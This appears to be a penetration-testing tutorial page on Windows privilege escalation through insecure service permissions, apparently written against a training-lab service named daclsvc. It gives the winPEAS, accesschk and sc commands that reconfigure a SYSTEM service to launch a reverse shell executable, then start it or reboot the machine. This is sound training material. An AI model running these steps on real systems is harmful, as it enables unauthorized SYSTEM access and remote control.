 ### <mark style="color:blue;">Insecure Service Permissions</mark>

Each service has an ACL which defines certain service-specific permissions:

1. Some permissions are innocuous (e.g. SERVICE\_QUERY\_CONFIG, SERVICE\_QUERY\_STATUS).
2. Some may be useful (e.g. SERVICE\_STOP, SERVICE\_START).&#x20;
3. Some are dangerous (e.g. SERVICE\_CHANGE\_CONFIG, SERVICE\_ALL\_ACCESS)

{% hint style="info" %}
Be cautious of **potential rabbit holes** when attempting to escalate privileges. For instance, if you can modify the configuration of a service but are unable to start or stop it, it's possible that you may not be able to escalate privileges.
{% endhint %}

If our user has permission to change the configuration of a service which runs with SYSTEM privileges, we can change the executable the service uses to one of our own.

1. Run winPEAS to check for service misconfigurations:

```
> .\winPEASany.exe quiet servicesinfo
```

2. Note that we can modify the “daclsvc” service.
3. We can confirm this with accesschk.exe:

```
> .\accesschk.exe /accepteula -uwcqv user daclsvc
```

4. Check the current configuration of the service:

```
> sc qc daclsvc
```

5. Check the current status of the service:

```
> sc query daclsvc
```

6. Reconfigure the service to use our reverse shell executable:

```
> sc config daclsvc binpath="\"C:\PrivEsc\reverse.exe\""
```

7. Start a listener on Kali, and then start the service to trigger the exploit:

```
> net start daclsvc
```

8. You could also need to reboot the machine to restart the service:

```
shutdown /r /t 0
```

### <mark style="color:blue;">Unquoted Service Path</mark>

